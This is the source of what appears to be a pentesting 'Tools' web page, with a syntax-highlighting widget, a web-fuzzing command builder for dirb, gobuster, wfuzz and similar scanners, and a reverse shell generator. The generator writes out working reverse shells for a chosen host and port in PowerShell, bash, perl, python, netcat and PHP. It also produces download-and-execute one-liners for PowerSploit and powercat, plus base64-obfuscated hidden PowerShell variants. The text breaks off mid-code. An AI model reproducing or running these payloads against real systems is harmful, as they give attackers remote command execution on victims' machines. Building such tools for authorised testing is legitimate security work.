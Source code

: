 ```yaml
---
title: "Tools"
layout: "post"
---
```


## Syntax Highlighting

<link rel="stylesheet" href="/assets/highlight/styles/monokai-sublime.css">
<script src="/assets/highlight/highlight.pack.js"></script>
<script>
    var g_style_url = "/assets/highlight/styles/";

    hljs.initHighlightingOnLoad(); // Initialize highlight.js 
  
    function autoApplyLanguageStyle() {

        lg_saved = sessionStorage.getItem("language"); // Get the current language from the local session

        if (lg_saved != null) { 
            for (i=0; i < document.getElementById("select_language").length; i++) {
                if (document.getElementById("select_language")[i].value == lg_saved) {
                    document.getElementById("select_language")[i].selected = "true"; // Auto-select the value in the dropdown list 
                    break;
                }
            }
        }

        st_saved = sessionStorage.getItem("style"); // Get the current style from the local session

        if (st_saved != null) {
            for (i=0; i < document.getElementById("select_style").length; i++) {
                if (document.getElementById("select_style")[i].value == st_saved) {
                    document.getElementById("select_style")[i].selected = "true"; // Auto-select the value in the dropdown list 
                    break;
                }
            }
        }
    }

    function escapeHtml(unsafe) {

        return unsafe
            .replace(/&/g, "&amp;")
            .replace(/</g, "&lt;")
            .replace(/>/g, "&gt;")
            .replace(/"/g, "&quot;")
            .replace(/'/g, "&#039;");

    }

    function updateStyle() {

        st = document.getElementById("select_style").value; // Get the select style 

        var links = document.getElementsByTagName("link");

        for (var i = links.length; i >= 0; i--) {

            if (links[i] && links[i].getAttribute("href") != null) {

                if (links[i].getAttribute("href").indexOf(g_style_url) != -1) {

                    var old_style_url = links[i].getAttribute("href")
                    var new_style_url = g_style_url + st + ".css"

                    if (old_style_url != new_style_url) {

                        var newlink = document.createElement("link");
                        newlink.setAttribute("rel", "stylesheet");
                        newlink.setAttribute("type", "text/css");
                        newlink.setAttribute("href", new_style_url);
                        links[i].parentNode.replaceChild(newlink, links[i])

                        sessionStorage.setItem("style", st); // Store selected style in the local session 
                    }
                }
            }
        }
    }
  
    function updateCode() {

        c = document.getElementById("textarea_src_code").value; // Get the source code to highlight
        lg = document.getElementById("select_language").value; // Get the selected language

        cr = document.getElementById("code_result"); // Get the preview element 
        cr.className = ""; // Remove any class that was previously added to this element 
        cr.classList.add("hljs"); // Add the default 'hljs" class to the element 
        cr.classList.add(lg); // Add the class corresponding to the selected language 

        sessionStorage.setItem("language", lg); // Store the selected language in the local session
                    
        document.getElementById("code_result").innerHTML = escapeHtml(c); // Copy the source code to the preview element 
        hljs.highlightBlock(document.getElementById("code_result")); // Syntax highlighting (highlight.js) 

    }

    function updateStyleAndCode() {
        updateStyle();
        updateCode();
    }
</script>

<div>
    <div name="code">
        <textarea id ="textarea_src_code" rows="8" spellcheck="false" style="width:100%" onchange="updateCode()">print("Hello World!")</textarea>
    </div>
    <div name="options" style="width:100%;display:flex">
        <div style="margin: 0 10px 0 0">
        <label for="select_language">Language:</label>
        <select id="select_language" onchange="updateCode()">
            <option value="1c">1C</option>
            <option value="abnf">ABNF</option>
            <option value="accesslog">Access logs</option>
            <option value="ada">Ada</option>
            <option value="arm">ARM assembler</option>
            <option value="avrasm">AVR assembler</option>
            <option value="actionscript">ActionScript</option>
            <option value="apache">Apache</option>
            <option value="applescript">AppleScript</option>
            <option value="arcade">Arcade</option>
            <option value="asciidoc">AsciiDoc</option>
            <option value="aspectj">AspectJ</option>
            <option value="autohotkey">AutoHotkey</option>
            <option value="autoit">AutoIt</option>
            <option value="awk">Awk</option>
            <option value="axapta">Axapta</option>
            <option value="bash">Bash</option>
            <option value="basic">Basic</option>
            <option value="bnf">BNF</option>
            <option value="brainfuck">Brainfuck</option>
            <option value="csharp">C#</option>
            <option value="cpp">C++</option>
            <option value="cal">C/AL</option>
            <option value="cos">Cache Object Script</option>
            <option value="cmake">CMake</option>
            <option value="coq">Coq</option>
            <option value="csp">CSP</option>
            <option value="css">CSS</option>
            <option value="capnproto">Cap’n Proto</option>
            <option value="clojure">Clojure</option>
            <option value="coffeescript">CoffeeScript</option>
            <option value="crmsh">Crmsh</option>
            <option value="crystal">Crystal</option>
            <option value="dns">DNS Zone file</option>
            <option value="dos">DOS</option>
            <option value="dart">Dart</option>
            <option value="delphi">Delphi</option>
            <option value="diff">Diff</option>
            <option value="django">Django</option>
            <option value="dockerfile">Dockerfile</option>
            <option value="dsconfig">dsconfig</option>
            <option value="dts">DTS (Device Tree)</option>
            <option value="dust">Dust</option>
            <option value="elixir">Elixir</option>
            <option value="elm">Elm</option>
            <option value="erlang">Erlang</option>
            <option value="excel">Excel</option>
            <option value="fix">FIX</option>
            <option value="fortran">Fortran</option>
            <option value="gcode">G-Code</option>
            <option value="gams">Gams</option>
            <option value="gauss">GAUSS</option>
            <option value="gherkin">Gherkin</option>
            <option value="go">Go</option>
            <option value="golo">Golo</option>
            <option value="gradle">Gradle</option>
            <option value="groovy">Groovy</option>
            <option value=" XML">HTML</option>
            <option value="http">HTTP</option>
            <option value="haml">Haml</option>
            <option value="handlebars">Handlebars</option>
            <option value="haskell">Haskell</option>
            <option value="haxe">Haxe</option>
            <option value="hy">Hy</option>
            <option value=" TOML">Ini</option>
            <option value="inform7">Inform7</option>
            <option value="irpf90">IRPF90</option>
            <option value="json">JSON</option>
            <option value="java">Java</option>
            <option value="javascript">JavaScript</option>
            <option value="kotlin">Kotlin</option>
            <option value="leaf">Leaf</option>
            <option value="lasso">Lasso</option>
            <option value="less">Less</option>
            <option value="ldif">LDIF</option>
            <option value="lisp">Lisp</option>
            <option value="livecodeserver">LiveCode Server</option>
            <option value="livescript">LiveScript</option>
            <option value="lua">Lua</option>
            <option value="makefile">Makefile</option>
            <option value="markdown">Markdown</option>
            <option value="mathematica">Mathematica</option>
            <option value="matlab">Matlab</option>
            <option value="maxima">Maxima</option>
            <option value="mel">Maya Embedded Language</option>
            <option value="mercury">Mercury</option>
            <option value="mizar">Mizar</option>
            <option value="mojolicious">Mojolicious</option>
            <option value="monkey">Monkey</option>
            <option value="moonscript">Moonscript</option>
            <option value="n1ql">N1QL</option>
            <option value="nsis">NSIS</option>
            <option value="nginx">Nginx</option>
            <option value="nimrod">Nimrod</option>
            <option value="nix">Nix</option>
            <option value="ocaml">OCaml</option>
            <option value="objectivec">Objective C</option>
            <option value="glsl">OpenGL Shading Language</option>
            <option value="openscad">OpenSCAD</option>
            <option value="ruleslanguage">Oracle Rules Language</option>
            <option value="oxygene">Oxygene</option>
            <option value="pf">PF</option>
            <option value="php">PHP</option>
            <option value="parser3">Parser3</option>
            <option value="perl">Perl</option>
            <option value="plaintext">Plaintext</option>
            <option value="pony">Pony</option>
            <option value="pgsql">PostgreSQL & PL/pgSQL</option>
            <option value="powershell">PowerShell</option>
            <option value="processing">Processing</option>
            <option value="prolog">Prolog</option>
            <option value="properties">Properties</option>
            <option value="protobuf">Protocol Buffers</option>
            <option value="puppet">Puppet</option>
            <option value="python" selected>Python</option>
            <option value="profile">Python profiler results</option>
            <option value="k">Q</option>
            <option value="qml">QML</option>
            <option value="r">R</option>
            <option value="reasonml">ReasonML</option>
            <option value="rib">RenderMan RIB</option>
            <option value="rsl">RenderMan RSL</option>
            <option value="graph">Roboconf</option>
            <option value="ruby">Ruby</option>
            <option value="rust">Rust</option>
            <option value="sas">SAS</option>
            <option value="scss">SCSS</option>
            <option value="sql">SQL</option>
            <option value="p21">STEP Part 21</option>
            <option value="scala">Scala</option>
            <option value="scheme">Scheme</option>
            <option value="scilab">Scilab</option>
            <option value="shell">Shell</option>
            <option value="smali">Smali</option>
            <option value="smalltalk">Smalltalk</option>
            <option value="stan">Stan</option>
            <option value="stata">Stata</option>
            <option value="stylus">Stylus</option>
            <option value="subunit">SubUnit</option>
            <option value="swift">Swift</option>
            <option value="tcl">Tcl</option>
            <option value="tap">Test Anything Protocol</option>
            <option value="tex">TeX</option>
            <option value="thrift">Thrift</option>
            <option value="tp">TP</option>
            <option value="twig">Twig</option>
            <option value="typescript">TypeScript</option>
            <option value="vbnet">VB.Net</option>
            <option value="vbscript">VBScript</option>
            <option value="vhdl">VHDL</option>
            <option value="vala">Vala</option>
            <option value="verilog">Verilog</option>
            <option value="vim">Vim Script</option>
            <option value="x86asm">x86 Assembly</option>
            <option value="xl">XL</option>
            <option value="xquery">XQuery</option>
            <option value="yml">YAML</option>
            <option value="zephir">Zephir</option>
        </select>
        </div>
        <div style="margin: 0 10px 0 0">
        <label for="select_style">Style:</label>
        <select id="select_style" onchange="updateStyle()">
            <option value="a11y-dark">A11y Dark</option>
            <option value="a11y-light">A11y Light</option>
            <option value="agate">Agate</option>
            <option value="androidstudio">Androidstudio</option>
            <option value="an-old-hope">An Old Hope</option>
            <option value="arduino-light">Arduino Light</option>
            <option value="arta">Arta</option>
            <option value="ascetic">Ascetic</option>
            <option value="atelier-cave-dark">Atelier Cave Dark</option>
            <option value="atelier-cave-light">Atelier Cave Light</option>
            <option value="atelier-dune-dark">Atelier Dune Dark</option>
            <option value="atelier-dune-light">Atelier Dune Light</option>
            <option value="atelier-estuary-dark">Atelier Estuary Dark</option>
            <option value="atelier-estuary-light">Atelier Estuary Light</option>
            <option value="atelier-forest-dark">Atelier Forest Dark</option>
            <option value="atelier-forest-light">Atelier Forest Light</option>
            <option value="atelier-heath-dark">Atelier Heath Dark</option>
            <option value="atelier-heath-light">Atelier Heath Light</option>
            <option value="atelier-lakeside-dark">Atelier Lakeside Dark</option>
            <option value="atelier-lakeside-light">Atelier Lakeside Light</option>
            <option value="atelier-plateau-dark">Atelier Plateau Dark</option>
            <option value="atelier-plateau-light">Atelier Plateau Light</option>
            <option value="atelier-savanna-dark">Atelier Savanna Dark</option>
            <option value="atelier-savanna-light">Atelier Savanna Light</option>
            <option value="atelier-seaside-dark">Atelier Seaside Dark</option>
            <option value="atelier-seaside-light">Atelier Seaside Light</option>
            <option value="atelier-sulphurpool-dark">Atelier Sulphurpool Dark</option>
            <option value="atelier-sulphurpool-light">Atelier Sulphurpool Light</option>
            <option value="atom-one-dark">Atom One Dark</option>
            <option value="atom-one-dark-reasonable">Atom One Dark Reasonable</option>
            <option value="atom-one-light">Atom One Light</option>
            <option value="brown-paper">Brown Paper</option>
            <option value="codepen-embed">Codepen Embed</option>
            <option value="color-brewer">Color Brewer</option>
            <option value="darcula">Darcula</option>
            <option value="dark">Dark</option>
            <option value="darkula">Darkula</option>
            <option value="default">Default</option>
            <option value="docco">Docco</option>
            <option value="dracula">Dracula</option>
            <option value="far">Far</option>
            <option value="foundation">Foundation</option>
            <option value="github">Github</option>
            <option value="github-gist">Github Gist</option>
            <option value="gml">Gml</option>
            <option value="googlecode">Googlecode</option>
            <option value="gradient-dark">Gradient Dark</option>
            <option value="grayscale">Grayscale</option>
            <option value="gruvbox-dark">Gruvbox Dark</option>
            <option value="gruvbox-light">Gruvbox Light</option>
            <option value="hopscotch">Hopscotch</option>
            <option value="hybrid">Hybrid</option>
            <option value="idea">Idea</option>
            <option value="ir-black">Ir Black</option>
            <option value="isbl-editor-dark">Isbl Editor Dark</option>
            <option value="isbl-editor-light">Isbl Editor Light</option>
            <option value="kimbie.light">Kimbie Light</option>
            <option value="kimbie.dark">Kimbie Dark</option>
            <option value="lightfair">Lightfair</option>
            <option value="magula">Magula</option>
            <option value="mono-blue">Mono Blue</option>
            <option value="monokai">Monokai</option>
            <option value="monokai-sublime" selected>Monokai Sublime</option>
            <option value="night-owl">Night Owl</option>
            <option value="nord">Nord</option>
            <option value="obsidian">Obsidian</option>
            <option value="ocean">Ocean</option>
            <option value="paraiso-dark">Paraiso Dark</option>
            <option value="paraiso-light">Paraiso Light</option>
            <option value="pojoaque">Pojoaque</option>
            <option value="purebasic">Purebasic</option>
            <option value="qtcreator_dark">Qtcreator Dark</option>
            <option value="qtcreator_light">Qtcreator Light</option>
            <option value="railscasts">Railscasts</option>
            <option value="rainbow">Rainbow</option>
            <option value="routeros">Routeros</option>
            <option value="school-book">School Book</option>
            <option value="shades-of-purple">Shades Of Purple</option>
            <option value="solarized-dark">Solarized Dark</option>
            <option value="solarized-light">Solarized Light</option>
            <option value="sunburst">Sunburst</option>
            <option value="tomorrow">Tomorrow</option>
            <option value="tomorrow-night-blue">Tomorrow Night Blue</option>
            <option value="tomorrow-night-bright">Tomorrow Night Bright</option>
            <option value="tomorrow-night">Tomorrow Night</option>
            <option value="tomorrow-night-eighties">Tomorrow Night Eighties</option>
            <option value="vs2015">Vs2015</option>
            <option value="vs">Vs</option>
            <option value="xcode">Xcode</option>
            <option value="xt256">Xt256</option>
            <option value="zenburn">Zenburn</option>
        </select>
        </div>
    </div>
    <div style="overflow:auto">
        <pre id="code_result"></pre>
    </div>
</div>
<script>
    autoApplyLanguageStyle();
    updateStyleAndCode();
</script>

---

## Web Fuzzing

<div>
    <label for="wf_url">URL</label>
    <input name="wf_url" id="wf_url" value="http://127.0.0.1/foo123/" style="width:100%" onchange="wfUpdateView()" />
    <label for="wf_folder">Log folder</label>
    <input name="wf_folder" id="wf_folder" style="width:100%" onchange="wfUpdateView()" value="./recon/" />
    <label for="wf_wordlist">Wordlist</label>
    <select id="wf_wordlist" style="width:100%" onchange="wfUpdateView()">
    </select>
    Options
    <div>
        <form id="wf_opt_checkboxes">
            <input type="checkbox" value="" id="wf_opt_log_results" checked onchange="wfUpdateView()">
            <label for="wf_opt_log_results" data-toggle="tooltip" title="">Log results to a file</label>
            <input type="checkbox" value="" id="wf_opt_runasroot" onchange="wfUpdateView()">
            <label for="wf_opt_runasroot" data-toggle="tooltip" title="">Run as root</label>
            <input type="checkbox" value="" id="wf_opt_proxy" onchange="wfUpdateView()">
            <label for="wf_opt_proxy" data-toggle="tooltip" title="">Proxy tool</label>
            <input type="hidden" id="wf_opt_proxy_tool" value="proxychains" onchange="wfUpdateView()">
        </form>
    </div>
    Extensions
    <div>
        <form id="wf_ext_checkboxes">
        </form>
    </div>
    <div style="overflow:auto">
        <pre id="wf_code_result"></pre>
    </div>
</div>

<script>

    const global_wordlists = {
        "wf_wordlist_empty": "",
        "wf_wordlist_dirb-common": "/usr/share/dirb/wordlists/common.txt",
        "wf_wordlist_dirbuster-medium": "/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt"
    };

    const global_extensions = {
        "wf_ext_slash": "/",
        "wf_ext_static": "html,js",
        "wf_ext_php": "php,php~",
        "wf_ext_iis": "asp,aspx,aspx~",
        "wf_ext_java": "jar,jsp,jsp~,do,properties",
        "wf_ext_python": "py,py~,pyc",
        "wf_ext_ruby": "rb,rb~",
        "wf_ext_system": "bak,bkp,backup,old,tar,tar.bz2,tar.gz,rar,conf,config,swp,swp~,cache",
        "wf_ext_db": "db,sql,sql~,sql.gz,sql.tar.gz",
        "wf_ext_misc": "txt,xml,cgi,csv,json,log,wadl"
    };

    const global_tools = [ "dirb", "dirsearch", "wfuzz", "gobuster", "nikto" ];

    class WebFuzzingParams {

        constructor(url) {
            this.url = url;
            this.validUrl = this.isValidUrl();
            this.logFolder = "";
            this.wordlistId = "";
            this.extensions = [];
            this.logResults = true;
            this.runAsRoot = false;
            this.useSocksTool = false;
            this.socksTool = "";
        }

        isValidUrl() {
            try {
                var tmpUrl = new URL(this.url);
                return true;
            } catch {
                return false;
            }
        }

        extensionsToString(prefix, seperator) {
            var result = "";
            for (var i=0; i<this.extensions.length; i++) {
                ext = extensions[i];
                result += ext == '/' ? '/' : prefix + ext;
                if (i < extensions.length - 1) {
                    result += seperator;
                }
            }
            return result;
        }

        generateLogPath(tool) {
            var result = "";
            
            if (this.logFolder != "") {
                result += this.logFolder;
                if (this.logFolder[this.logFolder.length - 1] != '/') {
                    result += "/";
                }
            }
            
            result += wfHelperUrlToFileName(this.url);
            result += tool == "" ? "_unknown" : "_" + tool;
            result += this.wordlistId == "wf_wordlist_empty" ? "_wl-default" : "_wl-" + this.wordlistId.split('_')[this.wordlistId.split('_').length - 1];
            result += ".log"
            
            return result;
        }

        generateCommands() {
            var result = "";

            if (this.validUrl === false) {
                return result;
            }

            var wordlistPath = global_wordlists[this.wordlistId];

            for (var i=0; i<global_tools.length; i++) {
                var tool = global_tools[i];

                var logpath = "";
                if (this.logResults == true) {
                    logpath = this.generateLogPath(tool);
                }

                var proxyTool = "";
                if (this.useSocksTool) {
                    proxyTool = this.socksTool;
                }
                
                var command = wfHelperFormatCommand(tool, this.url, logpath, wordlistPath, this.extensions, proxyTool, this.runAsRoot);
                if (command != "") {
                    result += command + "\n";
                }
            }
            return result;
        }
    }

    function wfHelperUrlToFileName(url) {
        var result = "";
        try {
            urlObj = new URL(url);
            result += urlObj.hostname;
            if (urlObj.port == "") {
                if (urlObj.protocol == "http:") {
                    result += "-80"; 
                } else if (urlObj.protocol == "https:") {
                    result += "-443";
                }
            } else {
                result += "-" + urlObj.port;
            }

            var path = urlObj.pathname;
            if (path.length > 1) {
                if (path[path.length - 1] == '/') {
                    path = path.slice(0, path.length - 1);
                }
                result += path.split('/').join('-');
            }

            return result;
        } catch {
            console.log("Invalid URL: " + url);
        }
    }

    function wfHelperPrepareExtensionList(extensions, prefix, seperator) {
        var result = "";
        for (var i=0; i<extensions.length; i++) {
            ext = extensions[i];
            result += ext == '/' ? '/' : prefix + ext;
            if (i < extensions.length - 1) {
                result += seperator;
            }
        }
        return result;
    }

    function wfHelperGetExtensionList() {
        var result = [];
        var ids = Object.keys(global_extensions);
        for (var i=0; i<ids.length; i++) {
            var checkbox = document.getElementById(ids[i]);
            if (checkbox.checked) {
                result = result.concat(global_extensions[ids[i]].split(','));
            }
        }
        return result;
    }

    function wfHelperFormatCommand(tool, url, logpath, wordlist, extensions, proxy, asroot) {

        var result = "";
        var toReturn = false;

        if (asroot) {
            result += "sudo ";
        }

        if (proxy != "") {
            result += proxy + " ";
        }

        if (tool == "dirb") {

            // dirb has no particular requirements
            // result += "# https://gitlab.com/kalilinux/packages/dirb\n";
            result += "dirb";
            result += " '" + url + "'";
            result += extensions.length == 0 ? "" : " -X '" + wfHelperPrepareExtensionList(extensions, '.', ',') + ",,'";
            result += logpath.length == 0 ? "" : " -o '" + logpath + "'";
            result += wordlist.length == 0 ? "" : " '" + wordlist + "'";
            toReturn = true;

        } else if (tool == "dirsearch") {

            // dirsearch requires an extension list
            // if (extensions.length != 0) {
            //     // result = "# https://github.com/maurosoria/dirsearch\n";
            //     result += "dirsearch.py -e";
            //     result += " '" + extensions.join(',') + "' -f";
            //     result += wordlist.length == 0 ? "" : " -w '" + wordlist + "'";
            //     result += logpath == "" ? "" : " --plain-text-report '" + logpath + "'";
            //     result += " -u '" + url + "'";
            //     toReturn = true;
            // }

            result += "dirsearch.py";
            result += extensions.length == 0 ? "" : " -e '" + extensions.join(',') + "'";
            result += wordlist.length == 0 ? "" : " -w '" + wordlist + "'";
            result += logpath == "" ? "" : " -o '" + logpath + "' --format plain";
            result += " -u '" + url + "'";
            toReturn = true;

        } else if (tool == "wfuzz") {

            // wfuzz requires a wordlist
            if (wordlist != "") {
                // result = "# https://github.com/xmendez/wfuzz/\n";
                result += "wfuzz -c";
                result += " -z 'file," + wordlist + "'";
                result += extensions.length == 0 ? "" : " -z 'list," + wfHelperPrepareExtensionList(extensions, '.', '-') + "-'";
                result += logpath == "" ? "" : " -f '" + logpath + "'";
                result += " --hc 404";
                result += " '" + url;
                result += url[url.length - 1] == '/' ? "" : "/";
                result += "FUZZ";
                result += extensions.length == 0 ? "" : "FUZ2Z";
                result += "'";
                toReturn = true;
            }

        } else if (tool == "gobuster") {

            // gobuster requires a wordlist
            if (wordlist != "") {
                // result = "# https://github.com/OJ/gobuster\n";
                result += "gobuster dir -e";
                result += "  -w '" + wordlist + "'";
                result += extensions.length == 0 ? "" : " -x '" + wfHelperPrepareExtensionList(extensions, '.', ',') + ",,'";
                result += logpath.length == 0 ? "" : " -o '" + logpath + "'";
                result += " -u '" + url + "'";
                toReturn = true;
            }

        } else if (tool == "nikto") {

            // result = "# https://www.cirt.net/Nikto2\n";
            result += "nikto -C all";
            result += logpath.length == 0 ? "" : " -output '" + logpath + "' -Format txt";
            result += " -host '" + url + "'";
            toReturn = true;
        }

        return toReturn ? result : "";
    }

    function wfUpdateView() {

        wfHelperUpdateProxyOption();
        wfHelperUpdateCodeSection();

    }

    function wfHelperUpdateCodeSection() {

        var params = new WebFuzzingParams(document.getElementById("wf_url").value);
        params.logFolder = document.getElementById("wf_folder").value;
        params.wordlistId = document.getElementById("wf_wordlist").value;
        params.extensions = wfHelperGetExtensionList();
        params.logResults = document.getElementById("wf_opt_log_results").checked;
        params.runAsRoot = document.getElementById("wf_opt_runasroot").checked;
        params.useSocksTool = document.getElementById("wf_opt_proxy").checked;
        params.socksTool = document.getElementById("wf_opt_proxy_tool").value;

        commands = params.generateCommands();

        var wf_code = document.getElementById("wf_code_result");
        wf_code.className = "";
        wf_code.classList.add("hljs");
        wf_code.classList.add("bash");
        wf_code.innerHTML = escapeHtml(commands);
        hljs.highlightBlock(wf_code);
    }

    function wfHelperUpdateProxyOption() {

        if (document.getElementById("wf_opt_proxy").checked) {
            document.getElementById("wf_opt_proxy_tool").type = "text";
        } else {
            document.getElementById("wf_opt_proxy_tool").type = "hidden";
        }
    }

    function wfHelperCreateWordlistDropdown() {

        var wf_wordlist_select = document.getElementById("wf_wordlist");

        for (const key of Object.keys(global_wordlists)) {
            var option = document.createElement("option");
            option.value = key;
            option.text = global_wordlists[key];
            wf_wordlist_select.appendChild(option);
        }
    }

    function wfHelperCreateExtensionCheckboxes() {
        
        var wf_checkbox_form = document.getElementById("wf_ext_checkboxes");

        for (const key of Object.keys(global_extensions)) {

            var checkbox = document.createElement("input");
            checkbox.type = "checkbox";
            checkbox.id = key;
            checkbox.value = "";
            checkbox.onchange = wfUpdateView;
            wf_checkbox_form.appendChild(checkbox);

            var label = document.createElement("label");
            label.htmlFor = key;
            label.title = global_extensions[key];
            label.innerHTML = key.split('_')[key.split('_').length - 1];
            wf_checkbox_form.appendChild(label);
        }
    }

    wfHelperCreateWordlistDropdown();
    wfHelperCreateExtensionCheckboxes();
    wfUpdateView();

</script>

---

## Reverse Shell Generator

<script>

    function encodeBash(payload) {
        return "bash -c \"{echo," + btoa(payload) + "}|{base64,-d}|{bash,-i}\"";
    }

    function encodePowerShell(payload) {

        // Convert payload string to byte array
        var array = new Uint8Array(payload.length*2);
        for (var i=0; i<array.length; i++) {
            if (i % 2 == 0) {
                array[i] = payload[i/2].charCodeAt(0);
            } else {
                array[i] = 0;
            }
        }

        // Convert byte array to binary string
        var bstr = "";
        for (var i=0; i<array.length; i++) {
            bstr += String.fromCharCode(array[i]);
        }

        // Convert binary string to base64 and create command line
        var result = "powershell -nop -noni -w Hidden -ep Bypass -e " + btoa(bstr);

        return result;
    }

    function updateOutput(eltName, eltValue, eltClass) {

        elt = document.getElementById(eltName);
        elt.className = "";
        elt.classList.add("hljs");
        elt.classList.add(eltClass);
        elt.innerHTML = escapeHtml(eltValue);
        hljs.highlightBlock(elt);

    }

    function updateCommandOutput() {

        var sl = document.getElementById("rs_select_language").value;
        var lhost = document.getElementById("rs_lhost").value;
        var lport = document.getElementById("rs_lport").value;

        if (sl != "" && sessionStorage.getItem("rs_select_language") != sl) {
            sessionStorage.setItem("rs_select_language", sl);
        }

        if (lhost != "" && sessionStorage.getItem("rs_lhost") != lhost) {
            sessionStorage.setItem("rs_lhost", lhost);
        }
        
        if (lport != "" && sessionStorage.getItem("rs_lport") != lport) {
            sessionStorage.setItem("rs_lport", lport);
        }

        var res_raw = "";
        var res_oneliner = "";
        var res_encoded = "";
        var res_raw_hljs = "";
        var res_oneliner_hljs = "";
        var res_encoded_hljs = "";

        if (sl == "psh") {
            res_raw_hljs = "powershell";
            res_oneliner_hljs = "powershell";
            res_encoded_hljs = "powershell";
            res_encoded_hljs = "powershell";
            res_raw = "$c=New-Object Net.Sockets.TcpClient(\"" + lhost + "\"," + lport + ")\n$s=$c.GetStream()\n$sb=([Text.Encoding]::UTF8).GetBytes(\"PS \"+(pwd).Path+\"> \")\n$s.Write($sb,0,$sb.Length)\n[byte[]]$b=0..65535|%{0}\nwhile(($i=$s.Read($b,0,$b.Length)) -ne 0){\n    $d=(New-Object -t Text.UTF8Encoding).GetString($b,0,$i)\n    $sb=(iex $d | Out-String) 2>&1\n    $sb2=$sb+\"PS \"+(pwd).Path+\"> \"\n    $sb=([Text.Encoding]::UTF8).GetBytes($sb2)\n    $s.Write($sb,0,$sb.Length)\n    $s.Flush()\n}\n$c.Close()";
            res_oneliner = "# No one-liner for this payload";
            res_encoded = encodePowerShell(res_raw);
        } else if (sl == "psh_ssl") {
            res_raw_hljs = "powershell";
            res_oneliner_hljs = "powershell";
            res_encoded_hljs = "powershell";
            res_raw = "$c=New-Object Net.Sockets.TcpClient(\"" + lhost + "\"," + lport + ")\n$s=$c.GetStream()\n$ss=New-Object Net.Security.SslStream($s,$False,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))\n$ss.AuthenticateAsClient(\"foo.tld\",$Null,\"Tls12\",$False)\n$w=New-Object IO.StreamWriter($ss)\n$w.Write(\"PS \"+(pwd).Path+\"> \")\n$w.Flush()\n[byte[]]$b=0..65535|%{0}\nwhile(($i=$ss.Read($b,0,$b.Length)) -ne 0){\n    $d=(New-Object -TypeName Text.UTF8Encoding).GetString($b,0,$i)\n    $sb=(iex $d | Out-String) 2>&1\n    $sb2=$sb+\"PS \"+(pwd).Path+\"> \"\n    $sb=([Text.Encoding]::UTF8).GetBytes($sb2)\n    $ss.Write($sb,0,$sb.Length)\n    $ss.Flush()\n}\n$c.Close()";
            res_oneliner = "# No one-liner for this payload";
            res_encoded = encodePowerShell(res_raw);
        } else if (sl == "psh_powersploit") {
            res_raw_hljs = "powershell";
            res_oneliner_hljs = "powershell";
            res_encoded_hljs = "powershell";
            res_encoded_hljs = "powershell";
            res_raw = "IEX (New-Object System.Net.WebClient).DownloadString('http://" + lhost + "/tools/Invoke-PowerShellTcp.ps1');\nInvoke-powershellTcp -Reverse -IPAddress " + lhost + " -Port " + lport;
            res_oneliner = "powershell -nop -noni -w Hidden -ep Bypass -c \"" + res_raw.replace(/\n/g, "") + "\"";
            res_encoded = encodePowerShell(res_raw);
        } else if (sl == "psh_powercat") { 
            res_raw_hljs = "powershell";
            res_oneliner_hljs = "powershell";
            res_encoded_hljs = "powershell";
            res_encoded_hljs = "bash";
            res_raw = "IEX (New-Object System.Net.WebClient).DownloadString('http://" + lhost + "/tools/powercat.ps1');\npowercat -c " + lhost + " -p " + lport + " -e cmd";
            res_oneliner = "powershell -nop -noni -w Hidden -ep Bypass -c \"" + res_raw.replace(/\n/g, "") + "\"";;
            res_encoded = encodePowerShell(res_raw);
        } else if (sl == "bash") { 
            res_raw_hljs = "bash";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "bash -i >& /dev/tcp/" + lhost + "/" + lport + " 0>&1";
            res_oneliner = "bash -c \"" + res_raw + "\"";
            res_encoded = encodeBash(res_raw);
        } else if (sl == "bash_mkfifo") { 
            res_raw_hljs = "bash";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "rm /tmp/f;\nmkfifo /tmp/f;\ncat /tmp/f|/bin/sh -i 2>&1|nc " + lhost + " " + lport + " >/tmp/f";
            res_oneliner = res_raw.replace(/\n/g, "");
            res_encoded = encodeBash(res_raw);
        } else if (sl == "perl") { 
            res_raw_hljs = "perl";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "use Socket;\n$i=\"" + lhost + "\";\n$p=" + lport + ";\nsocket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));\nif(connect(S,sockaddr_in($p,inet_aton($i)))){\n\topen(STDIN,\">&S\");\n\topen(STDOUT,\">&S\");\n\topen(STDERR,\">&S\");\n\texec(\"/bin/sh -i\");\n};";
            res_oneliner = "perl -e '" + res_raw.replace(/\t/g, "").replace(/\n/g, "") + "'";
            res_encoded = "perl -MMIME::Base64 -e \"eval(decode_base64('" + btoa(res_raw) + "'))\"";
        } else if (sl == "perl_web") { 
            res_raw_hljs = "perl";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "curl http://" + lhost + "/rev.pl -o /tmp/rev.pl ; perl /tmp/rev.pl";
            res_oneliner = res_raw;
            res_encoded = encodeBash(res_raw);
        } else if (sl == "python") { 
            res_raw_hljs = "python";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "import socket,subprocess,os;\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM);\ns.connect((\"" + lhost + "\"," + lport + "));\nos.dup2(s.fileno(),0);\nos.dup2(s.fileno(),1);\nos.dup2(s.fileno(),2);\np=subprocess.call([\"/bin/sh\",\"-i\"]);";
            res_oneliner = "python -c '" + res_raw.replace(/\n/g, "") + "'";
            res_encoded = "python -c \"exec('" + btoa(res_raw) + "'.decode('base64'))\"";
        } else if (sl == "netcat") { 
            res_raw_hljs = "bash";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "nc -e /bin/sh " + lhost + " " + lport;
            res_oneliner = res_raw;
            res_encoded = encodeBash(res_raw);
        } else if (sl == "php") { 
            res_raw_hljs = "php";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "$sock=fsockopen(\"" + lhost + "\"," + lport + ");\nexec(\"/bin/sh -i <&3 >&3 2>&3\");";
